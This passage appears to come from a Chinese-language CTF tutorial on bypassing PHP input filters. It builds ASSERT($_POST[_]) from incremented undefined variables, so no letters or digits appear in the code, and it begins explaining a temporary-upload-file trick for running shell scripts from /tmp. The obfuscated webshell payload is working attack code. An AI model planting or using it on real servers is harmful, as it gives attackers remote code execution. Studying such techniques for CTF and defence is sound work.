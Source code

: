 

>
>  $++对变量进行了自增操作,由于我们没有定义的值,PHP会给赋一个默认值NULL==0,由此我们可以看出,我们可以在不使用任何数字的情况下,**通过对未定义变量的自增操作来得到一个数字** 
>




故有payload:

php5

```php
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```



####  5、上传临时文件

##### 知识点：

> 1、Linux下可用点 . 来执行shell脚本，等同于 source 
>
> 2、Linux文件名可以使用glob通配符匹配
>
> - `*`可以代替0个及以上任意字符
> - `?`可以代表1个任意字符
>
> 3、PHP中POST上传文件会把我们上传的文件暂时存在/tmp文件夹中，默认文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的大小写字母。

